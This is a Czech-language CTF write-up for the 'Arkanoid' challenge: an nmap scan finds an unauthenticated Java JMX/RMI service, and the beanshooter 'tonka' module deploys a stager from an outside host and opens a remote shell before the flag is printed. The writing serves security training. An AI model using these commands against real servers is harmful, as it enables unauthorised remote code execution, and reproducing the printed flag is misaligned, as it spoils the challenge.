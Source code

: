 # Arkanoid (5)

## Zadání

Ahoy, officer,

a new server with a video game is to be placed in the ship's relaxation center . Your task is to check whether the server does not contain any vulnerabilities.

May you have fair winds and following seas!

The game server has domain name `arkanoid.cns-jv.tcc`.

## Nápovědy (Hints)

1. Use VPN to get access the server.
2. The Arkanoid appliance restarts every hour.

## Řešení

K řešení této úlohy je potřeba připojení pomocí VPN z úlohy [VPN access](../01_VPN_access/README.md)

Skenování portů `nmap -p- -A arkanoid.cns-jv.tcc` se zobrazí

```text
PORT      STATE SERVICE     VERSION
8000/tcp  open  http        JBoss Enterprise Application Platform
|_http-title: Gamedev Canvas Workshop - lesson 10: finishing up
38899/tcp open  tcpwrapped
60001/tcp open  java-rmi    Java RMI Registry
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
60002/tcp open  rmiregistry Java RMI
```

Zajímavý je port 60001 se službou java-rmi se službou JMX. Pro útoky na tuto službu jsem použil beanshooter <https://github.com/qtc-de/beanshooter>.

Postupným zkoušením různých služeb vyjde najevo, že služba nevyžaduje autentizaci.

```text
[+] Checking for unauthorized access:
[+]
[+]     - Remote MBean server does not require authentication.
[+]       Vulnerability Status: Vulnerable
```

Pro otevření shellu se hodí modul [tonka shell](https://github.com/qtc-de/beanshooter#tonka-shell)

```text
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka deploy arkanoid.cns-jv.tcc 60001 --stager-url http://10.200.0.6:8888
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell arkanoid.cns-jv.tcc 60001
```

Hledaný FLAG není ukrytý mezi soubory, ale v proměnných prostředí. Stačí si je vypsat příkazem `set`.

[source.zip](source.zip) obsahuje zdrojový kód aplikace.

## Flag

`FLAG{sEYj-80fd-EtkR-0fHv}`

